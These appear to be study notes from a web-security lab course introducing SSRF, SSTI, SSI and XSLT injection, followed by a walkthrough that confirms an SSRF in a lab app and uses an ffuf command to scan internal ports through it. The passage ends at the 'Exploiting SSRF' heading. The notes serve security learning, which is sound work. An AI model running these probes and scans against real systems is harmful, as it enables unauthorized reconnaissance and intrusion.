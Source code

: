 # Introduction
Server-side attacks target the application or service provided by a **server**, whereas a client-side attack takes place at the **client's machine**, not the server itself.

For instance, vulnerabilities like **Cross-Site Scripting (XSS)** target the web browser, i.e., the client. On the other hand, server-side attacks target the web server. We will go over four classes of server-side vulnerabilities:

- Server-Side Request Forgery (SSRF)
- Server-Side Template Injection (SSTI)
- Server-Side Includes (SSI) Injection
- eXtensible Stylesheet Language Transformations (XSLT) Server-Side Injection
## Server-Side Request Forgery (SSRF)
[Server-Side Request Forgery (SSRF)](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery) is a vulnerability where **an attacker can manipulate a web application into sending unauthorized requests from the server.** This vulnerability often occurs when an application makes **HTTP** requests to other servers based on **user input**. Successful exploitation of SSRF can enable an attacker to **access internal systems, bypass firewalls, and retrieve sensitive information.**

## Server-Side Template Injection (SSTI)
Web applications can utilize templating engines and server-side templates to generate responses such as **HTML** content dynamically. This generation is often based on user input, enabling the web application to respond to user input dynamically. When an attacker can inject template code, a [Server-Side Template Injection](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection) vulnerability can occur. SSTI can lead to various security risks, including **data leakage** and even **full server compromise via remote code execution**.

## Server-Side Includes (SSI) Injection
Similar to **server-side templates**, server-side includes (**SSI**) can be used to generate **HTML** responses dynamically. SSI directives instruct the webserver to include additional content dynamically. These directives are embedded into **HTML** files. For instance, **SSI** can be used to include content that is present in all **HTML** pages, such as headers or footers. When an attacker can inject commands into the **SSI** directives, [Server-Side Includes (SSI) Injection](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection) can occur. **SSI** injection can lead to **data leakage** or even **remote code execution**.

## eXtensible Stylesheet Language Transformations (XSLT) Server-Side Injection
**XSLT** server-side injection is a vulnerability that arises when an attacker can manipulate **XSLT transformations** performed on the server. **XSLT** is a language used to transform **XML** documents into other formats, such as **HTML**, and is commonly employed in web applications to generate content dynamically. In the context of **XSLT** server-side injection, attackers exploit weaknesses in how **XSLT** transformations are handled, allowing them to inject and execute **arbitrary code** on the server.

# SSRF
## Introduction to SSRF
This type of vulnerability occurs **when a web application fetches additional resources from a remote location based on user-supplied data, such as a URL.**

---
Suppose a web server fetches remote resources based on user input. In that case, an attacker might be able to coerce the server into making requests to arbitrary URLs supplied by the attacker, (i.e., the web server is vulnerable to SSRF)
While this might not sound particularly bad at first, depending on the web app's configuration, SSRF vulnerabilities can have devastating consequences.

Furthermore, if the web application relies on a **user-supplied URL** scheme or protocol, an attacker might be able to cause even further undesired behaviour by manipulating the URL scheme. For instance, the following URL schemes are commonly used in the exploitation of SSRF vulnerabilities:

- `http://` and `https://`: These **URL** schemes fetch content via **HTTP/S** requests. An attacker might use this in the exploitation of **SSRF** vulnerabilities to **bypass WAFs**, **access restricted endpoints, or access endpoints in the internal network**

- `file://`: This **URL** scheme **reads a file from the local file system**. An attacker might use this in the exploitation of **SSRF** vulnerabilities to read local files on the web server (**LFI**)

- `gopher://`: This protocol can send arbitrary bytes to the specified address. An attacker might use this in the exploitation of **SSRF** vulnerabilities to send **HTTP POST** requests with arbitrary payloads or communicate with other services such as SMTP servers or databases
## Identifying SSRF
Looking at the vulnerable web app, we are greeted with some generic text as well as functionality to schedule appointments:
![[Pasted image 20241215182051.png]]

After checking the availability of a date, we can observe the following request in **Burp**:
![[Pasted image 20241215182128.png]]The request contains our chosen date and a **URL** in the parameter `dateserver`. This indicates that the web server fetches the availability information from a separate system determined by the **URL** passed in this **POST** parameter.

To confirm an **SSRF** vulnerability, let us supply a **URL** pointing to our system to the web application:
![[Pasted image 20241215182215.png]]
In a `netcat` listener, we can receive a connection, thus confirming **SSRF**:
![[Pasted image 20241215182236.png]]

To determine whether the **HTTP** response reflects the **SSRF** response to us, let us point the web application to itself by providing the **URL** `http://127.0.0.1/index.php`:
![[Pasted image 20241215182349.png]]Since the response contains the web application's **HTML** code, the **SSRF** vulnerability is not blind, (i.e., the response is displayed to us).
### Enumerating the System
We can use the **SSRF** vulnerability to conduct a port scan of the system to enumerate running services. To achieve this, we need to be able to infer whether a port is open or not from the response to our **SSRF** payload. If we supply a port that we assume is closed (such as `81`), the response contains an error message:
![[Pasted image 20241215182514.png]]
This allows us to conduct an internal port scan of the web server through the **SSRF** vulnerability. We can do this using a fuzzer like `ffuf`. Let us first create a wordlist of the ports we want to scan. In this case, we'll use the first 10,000 ports:
```bash
seq 1 10000 > ports.txt
```

Now, we can fuzz all open ports by filtering out responses containing the error message:
```bash
ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```
**Result:** 
```bash
[Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 0ms]
    * FUZZ: 3306
[Status: 200, Size: 8285, Words: 2151, Lines: 158, Duration: 338ms]
    * FUZZ: 80
```
**Code explained**:
``` bash
-w ./ports.txt | "Tells the ffuf which wordlist to use"

-u http://172.17.0.2/index.php | "Specify the url to fuzz"

-X POST | "Specify the request type (e.g. POST or GET)"

-H "Content-Type: application/x-www-form-urlencoded" | "Apply header"

-d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" | "The data to send, the same line is in the burpsuite request"

-fr "Failed to connect to" | "Filter out responses containing this message"
```

The results show that the web server runs a service on port `3306`, typically used for a **SQL** database. If the web server ran other internal services, such as internal web applications, we could also identify and access them through the **SSRF** vulnerability.
## Exploiting SSRF
